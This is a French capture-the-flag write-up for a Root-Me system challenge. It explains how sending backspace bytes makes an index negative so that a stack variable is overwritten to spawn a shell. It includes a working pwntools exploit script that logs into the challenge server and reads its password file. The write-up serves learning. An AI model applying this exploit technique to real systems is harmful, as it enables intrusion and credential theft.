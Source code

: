 On va utiliser "pwn" en python3
Le programme lit l’entrée (stdin) caractère par caractère : read(fileno(stdin),&i,1);
Les variables sont déclarées dans l’ordre suivant :
```
char buffer[64];
int check;
int i = 0;
int count = 0;
```

Pour obtenir un shell, il nous faut passer par cette fonction :
```
if(check == 0xbffffabc)
        shell();
```

On doit remplacer la valeur de check par 0xbffffabc sachant que check est déclaré juste après la variable buffer.
La variable count pouvant être négatif, on recule sur la stack en envoyant \x08 4 fois pour obtenir count=-4 puis on écrase par la valeur souhaitée grâce à ceci :
```
default:
      buffer[count] = i;
```
Le code python :
```
#! /usr/bin/env python3
import pwn
 
s = pwn.ssh('app-systeme-ch16',
            'challenge02.root-me.org',
            password='app-systeme-ch16',
            port=2222)
 
p = s.process('ch16')
p.sendline(b'\x08'*4+pwn.p32(0xbffffabc))
p.sendline(b'cat .passwd')
p.recvuntil(b'Enter your name: $ ')
print (p.recvline())
p.close()
s.close()
```

On obtient alors :
```
[+] Connecting to challenge02.root-me.org on port 2222: Done
[+] Opening new channel: execve(b'ch16', [b'ch16'], os.environ): Done
b'$ S[...FLAG censuré...]n\n'
[*] Closed SSH channel with challenge02.root-me.org
[*] Closed connection to 'challenge02.root-me.org'
```
